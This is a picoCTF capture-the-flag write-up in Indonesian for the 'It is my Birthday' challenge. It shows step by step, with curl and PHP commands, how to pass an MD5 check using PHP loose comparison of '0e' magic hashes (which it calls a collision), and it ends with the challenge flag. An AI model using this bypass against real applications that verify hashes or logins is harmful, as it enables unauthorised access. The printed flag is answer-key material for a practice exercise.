 # It is my Birthday
- Link: https://play.picoctf.org/practice/challenge/109?category=1&page=1

## Tantangan
I sent out 2 invitations to all of my friends for my birthday! I'll know if they get stolen because the two invites look similar, and they even have the same md5 hash, but they are slightly different! You wouldn't believe how long it took me to find a collision. Anyway, see if you're invited by submitting 2 PDFs to my website. http://mercury.picoctf.net:50970/

## Penyelesaian
- Buka URL http://mercury.picoctf.net:50970/ di browser, di halaman web ini kita bisa mengupload 2 buah file 

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/It%20is%20my%20Birthday/assets/it%20is%20my%20birthday%201.JPG)

- Jika kita tekan `Ctrl+U` akan terlihat source code sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/It%20is%20my%20Birthday/assets/it%20is%20my%20birthday%202.JPG)

- Sekarang kita coba buat sebuah file berformat `txt` setelah itu kita upload file tersebut ke website dengan tool `curl`. Disini muncul pesan bahwa file tersebut harus PDF
```sh
echo 'testing' > testing.txt
curl -F 'file1=@testing.txt'  -F 'file2=@testing.txt' -F 'submit=Upload' http://mercury.picoctf.net:50970/
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/It%20is%20my%20Birthday/assets/it%20is%20my%20birthday%203.JPG)

- Sekarang kita coba ubah file tersebut menjadi `pdf` kemudian kita upload lagi menggunakan tool `curl`. Disini muncul pesan bahwa file tersebut tidak sama
```sh
mv testing.txt testing.pdf
curl -F 'file1=@testing.pdf'  -F 'file2=@testing.pdf' -F 'submit=Upload' http://mercury.picoctf.net:50970/
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/It%20is%20my%20Birthday/assets/it%20is%20my%20birthday%204.JPG)

- Dari uraian soal dan petunjuk, kita tahu bahwa md5 di PHP memiliki kelemahan yang disebut dengan [MD5 Collision](https://www.mscs.dal.ca/~selinger/md5collision/) Dimana jika kedua string berbentuk `0e[\d]+` dibandingkan dengan tanda `==` maka dianggap sama sehingga `'0e1' == '00e2' == '0'` seperti contoh berikut ini:
```sh
php -r "echo md5('240610708');"
php -r "echo md5('QNKCDZO');"
php -r "var_dump(md5('240610708') == md5('QNKCDZO'));"
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/It%20is%20my%20Birthday/assets/it%20is%20my%20birthday%205.JPG)

- Sekarang kita buat file PDF dengan acuan hash diatas
```sh
echo -n "240610708" > file1.pdf
echo -n "QNKCDZO" > file2.pdf
md5sum file1.pdf file2.pdf
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/It%20is%20my%20Birthday/assets/it%20is%20my%20birthday%206.JPG)

- Setelah itu kita upload kedua file tersebut ke web dan disini kita berhasil mendapatkan flag
```sh
curl -F 'file1=@file1.pdf'  -F 'file2=@file2.pdf' -F 'submit=Upload' http://mercury.picoctf.net:50970/
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/It%20is%20my%20Birthday/assets/it%20is%20my%20birthday%207.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/It%20is%20my%20Birthday/assets/it%20is%20my%20birthday%208.JPG)

- Untuk mempermudah mendapatkan flag kita bisa pakai perintah berikut
```sh
curl -F 'file1=@file1.pdf'  -F 'file2=@file2.pdf' -F 'submit=Upload' http://mercury.picoctf.net:50970/ | egrep -o "picoCTF{[^}]+}"
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/It%20is%20my%20Birthday/assets/it%20is%20my%20birthday%209.JPG)

- Flag
```sh
picoCTF{c0ngr4ts_u_r_1nv1t3d_73b0c8ad}
```
